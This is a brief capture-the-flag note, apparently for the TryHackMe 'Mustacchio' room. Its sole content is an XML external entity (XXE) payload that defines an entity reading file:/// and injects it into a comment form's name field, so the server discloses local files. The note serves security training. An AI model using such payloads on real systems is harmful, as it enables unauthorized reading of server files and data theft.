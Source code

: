 -----------------------------------------------
# THM Mustacchio
Tags:  #Writeup #Hacking #Redo
Creation date: 2021-10-06

-----------------------------------------------

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE data [  
  <!ELEMENT data ANY >
  <!ENTITY name SYSTEM "file:///" >]>
<comment>
  <name>&name;</name>
  <author>Barry Clad</author>
  <com>Thing</com>
</comment>
```

